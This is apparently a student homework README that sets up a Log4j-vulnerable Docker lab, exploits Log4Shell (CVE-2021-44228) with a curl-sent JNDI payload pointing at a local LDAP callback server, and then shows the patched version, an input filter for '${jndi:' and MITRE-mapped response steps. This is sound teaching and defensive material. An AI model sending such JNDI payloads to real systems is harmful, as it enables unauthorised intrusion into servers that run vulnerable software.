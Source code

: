 # Log4Shell Homework: Securing Systems Against Log4Shell Exploits Using Docker and MITRE Frameworks

This project demonstrates how to exploit the Log4Shell vulnerability (CVE-2021-44228) in a controlled environment and apply defenses using updated libraries and input validation. The project follows the MITRE ATT&CK, DEFEND, and REACT frameworks to simulate a full security workflow — exploitation, defense, and incident response.

## 📁 Project Structure
```
log4shell-homework/          # Vulnerable app (Log4j 2.14.1, no input validation)
log4shell-homework-patched/  # Patched app (Log4j 2.17.0, input validation added)
ldap_server.py               # LDAP server script to simulate attack
README.md                     # This file
```

## 🛠️ Setup Instructions

### 1. Set Up the Vulnerable Environment

#### a. Build and Run Vulnerable Application
```bash
cd log4shell-homework
docker-compose up --build
```
Application will be available at: [http://localhost:8080](http://localhost:8080)

### 2. Set Up Attacker Server

Install required Python package:
```bash
pip install ldap3
```

Start the LDAP attack server:
```bash
python ldap_server.py
```
The LDAP server will listen on port `389` for connections.

### 3. Exploit the Vulnerability

Send a malicious payload to the vulnerable application:
```bash
curl -X POST http://localhost:8080/log -d '${jndi:ldap://host.docker.internal:389/a}'
```
✅ **Expected:** You should see a connection hit on the LDAP server terminal, indicating the exploit succeeded.

### 4. Apply Security Controls (Patched Environment)

#### a. Deploy the Patched Application
```bash
cd log4shell-homework-patched
docker-compose up --build
```
This version uses:
- Log4j 2.17.0 (patched against Log4Shell)
- Input validation to block `${jndi:` patterns.

### 5. Test the Defenses

#### a. Reattempt the Exploit
```bash
curl -X POST http://localhost:8080/log -d '${jndi:ldap://host.docker.internal:389/a}'
```
✅ **Expected:** Response should be:
```
Invalid input detected
```
No connection should appear in the LDAP server.

#### b. Test Normal Behavior
```bash
curl -X POST http://localhost:8080/log -d 'Hello, world!'
```
✅ **Expected:** Logs normally without errors.

## 🔒 MITRE Frameworks Applied

### MITRE ATT&CK (Exploitation Phase)
- **Tactic:** Initial Access (TA0001)
- **Technique:** Exploit Public-Facing Application (T1190)
- **Action:** Sending a malicious JNDI payload to exploit Log4Shell.

### MITRE DEFEND (Defense Phase)
- **Patch Management:** Upgrade Log4j to a safe version (2.17.0).
- **Input Validation:** Block suspicious payloads by filtering `${jndi:` patterns before logging.

### MITRE REACT (Incident Response Phase)
- **Detect:** Check Docker logs for suspicious payloads (`${jndi:`).
- **Contain:** Take down the vulnerable container (`docker-compose down`).
- **Eradicate:** Ensure no malicious processes remain.
- **Recover:** Deploy the secured version and validate functionality.

## 📦 Deliverables Summary
| File                | Description                                         |
|---------------------|-----------------------------------------------------|
| `pom.xml`            | Maven project file (vulnerable and patched versions) |
| `LogController.java` | Java controller for logging user input              |
| `Dockerfile`         | Dockerfile for building the Spring Boot app         |
| `docker-compose.yml` | Compose file for running the app                    |
| `ldap_server.py`     | Python LDAP server script to simulate Log4Shell     |
| `README.md`          | Setup, exploitation, defense, and incident response instructions |

## ❗ Notes
- `host.docker.internal` is used to allow Docker containers to reach the host system.
- If `host.docker.internal` doesn't work (Linux hosts), you may need to adjust network settings or use your machine's IP address.

## 🚀 Quick Commands

### Build & Run Vulnerable App
```bash
cd log4shell-homework
docker-compose up --build
```

### Launch LDAP Attack Server
```bash
python ldap_server.py
```

### Send Exploit Payload
```bash
curl -X POST http://localhost:8080/log -d '${jndi:ldap://host.docker.internal:389/a}'
```

### Deploy Patched App
```bash
cd log4shell-homework-patched
docker-compose up --build
```
